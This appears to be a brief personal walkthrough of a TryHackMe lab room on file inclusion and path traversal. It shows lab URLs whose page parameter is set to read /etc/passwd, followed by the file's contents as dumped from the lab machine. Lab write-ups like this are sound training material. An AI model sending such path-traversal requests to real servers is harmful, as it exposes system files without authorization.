 ### 03-Feb-24-Sat

[TryHackMe | File Inclusion, Path Traversal](https://tryhackme.com/room/filepathtraversal)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/ac342878-b0f2-468c-a2f2-428dfbe04a58)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/a32ef0ad-b180-4f8e-a598-ac5d2825c5d9)

http://10.10.246.101/lfi.php

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/b9f24266-12df-4708-b2d4-afede74498af)

http://10.10.246.101/lfi.php?page=%2Fetc%2Fpasswd

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/665609e5-032e-4330-902a-32b5cdf885ab)

http://10.10.246.101/playground.php?page=%2Fetc%2Fpasswd

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/9921de7b-e41c-4843-9168-4b76a7c1354e)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tryhackme:x:1001:1001:,,,:/home/tryhackme:/bin/bash
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
```

